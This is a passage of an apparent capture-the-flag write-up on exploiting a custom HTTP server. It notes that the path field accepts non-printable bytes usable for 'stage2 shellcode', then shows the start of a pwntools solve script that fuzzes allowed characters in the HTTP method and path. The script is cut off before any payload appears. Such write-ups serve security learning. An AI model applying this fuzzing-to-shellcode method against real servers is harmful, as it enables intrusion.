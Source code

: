 I am not sure why but **`abs_path` allows some non-printable ASCII characters** because I was able to include them in my stage2 shellcode.
Maybe they are allowed to account for non-printable ASCII characters of other languages?

# Solve script

```python
import socket
from pwn import *
import ssl
import string

context.arch = 'amd64'

def send_raw_http_request(hostname, port, request_bytes, use_ssl=False, debug=False):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(10)
        s.connect((hostname, port))
        if use_ssl:
            context = ssl.create_default_context()
            s = context.wrap_socket(s, server_hostname=hostname)

        s.sendall(request_bytes)

        if debug: input("Keeping connection alive for gdbserver attach\nPress Enter to continue...")

        try:
            response = s.recv(4096)
            return response
        except TimeoutError:
            return b""

def fuzz_method():
    print("fuzzing method...")
    allowed = []
    invalid = []
    for c in string.ascii_uppercase+string.ascii_lowercase+string.digits+"_":
        method = c.encode()
        req = (
            method + b" / HTTP/1.1\r\n"
            b"Host: localhost\r\n"
            b"\r\n"
        )
        resp = send_raw_http_request(HOST, PORT, req)
        print(resp)
        if b"HTTP/1.1 400 Bad Request" not in resp:
            print(f"allowed method: {c}")
            allowed.append(c)
        else:
            print(f"invalid method: {c}")
            invalid.append(c)

    return (allowed, invalid)

def fuzz_abspath():
    print("fuzzing abs_path...")
    allowed = []
    invalid = []
    for c in string.printable:
        abs_path = b"/"+c.encode()
        req = (
            b"GET " + abs_path + b" HTTP/1.1\r\n"
```